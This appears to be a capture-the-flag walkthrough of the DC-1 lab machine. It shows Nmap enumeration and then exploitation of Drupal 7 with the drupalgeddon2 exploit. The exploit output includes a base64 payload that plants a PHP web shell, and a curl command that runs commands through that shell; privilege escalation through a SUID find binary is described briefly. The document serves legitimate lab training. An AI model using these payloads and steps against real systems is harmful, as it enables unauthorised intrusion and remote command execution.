










# PG Play - DC-1

#### Ip: 192.168.244.193
#### Name: DC-1
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ sudo nmap -p-  --min-rate 10000 192.168.244.193
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 09:05 CDT
Nmap scan report for 192.168.244.193
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
40238/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 7.16 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ sudo nmap -sC -sV 192.168.244.193 -p 22,80,111,40238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 09:07 CDT
Nmap scan report for 192.168.244.193
Host is up (0.066s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35685/udp6  status
|   100024  1          40238/tcp   status
|   100024  1          56691/udp   status
|_  100024  1          58362/tcp6  status
40238/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.51 seconds
```

Heading to the site we find we are working with Drupal here.



Nmap also found a `/robots.txt` page for us with several entries:



Kicking off a Nikto scan against the target we see it is running Drupal 7. This version is associated with several vulnerabilities. 



Using https://www.exploit-db.com/exploits/44449 we can get easy code execution on the target.

### Exploitation

We can run:

```text
┌──(ryan㉿kali)-[~/PG/DC-1]
└─$ ruby drupalgeddon2.rb http://192.168.244.193
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.244.193/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.244.193/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.244.193/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.244.193/includes/bootstrap.inc    (HTTP Response: 403)
[!] MISSING: http://192.168.244.193/core/includes/bootstrap.inc    (HTTP Response: 404)
[+] Found  : http://192.168.244.193/includes/database.inc    (HTTP Response: 403)
[+] URL    : v7.x/6.x?
[+] Found  : http://192.168.244.193/    (HTTP Response: 200)
[+] Metatag: v7.x/6.x [Generator]
[!] MISSING: http://192.168.244.193/    (HTTP Response: 200)
[+] Drupal?: v7.x/6.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo PLBVJBLR
[+] Result : PLBVJBLR
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.244.193/shell.php)
[i] Response: HTTP 404 // Size: 13
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.244.193/shell.php' -d 'c=hostname'
DC-1>> hostname
DC-1
DC-1>> whoami
www-data
```

Lets use this pseudo-shell to spawn a proper reverse shell:



Cool, now that we have a working shell, lets grab the local.txt flag:



### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:



Interesting, LinPEAS finds that `find` has the SUID bit set. 



This should make for an easy privesc. Heading over to https://gtfobins.github.io/gtfobins/find/ we find the command we need:



Lets run that:



Nice, that worked! We can now grab the final flag:



Thanks for following along!

-Ryan

---------------------------------------------------
